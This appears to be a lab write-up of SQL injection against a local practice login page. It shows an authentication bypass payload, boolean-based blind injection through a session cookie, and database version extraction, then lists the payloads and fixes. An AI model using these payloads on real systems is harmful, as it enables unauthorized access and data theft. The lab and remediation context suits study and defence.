






# SQL Injection 0x02

## What is SQL Injection in Login Forms?
SQL Injection in login forms allows an attacker
to bypass authentication by injecting SQL code
into the username or password field.

## Target
http://localhost/labs/i0x02.php

## Vulnerability
The login form passes credentials directly into
a SQL query without sanitization.

## Attack

### Step 1 — Identify the lab
Login page with default credentials jeremy:jeremy

### Step 2 — Test login bypass
Intercepted POST request in Burp Suite Repeater
Tried invalid credentials — got "Invalid credentials"

### Step 3 — SQL login bypass
Modified request in Burp Repeater:
username=jeremy' or 1=1-- -&password=anything
Result: Successfully logged in as jeremy!

### Step 4 — Blind SQL Injection via Cookie
Injected payload into session cookie:
session=...db' and 1=2#
Result: Page size 2248 bytes (different response)

session=...db' and 1=1#  
Result: Page size 1347 bytes (welcome page)
Confirmed Blind SQLi via boolean response difference

### Step 5 — Extract DB version via Blind SQLi
Payload in cookie:
session=...db' and substring((select version()),1,5)='8.0.4'#
Result: welcome page returned — version confirmed!

## Payloads Used
```sql
username=jeremy' or 1=1-- -
session=...db' and 1=1#
session=...db' and 1=2#
session=...db' and substring((select version()),1,5)='8.0.4'#
```

## Screenshots







## Impact
- Authentication bypass without valid credentials
- Blind SQL Injection allows data extraction
- Session cookie vulnerable to injection

## Fix
- Use prepared statements for all queries
- Hash and salt passwords properly
- Validate and sanitize all user input
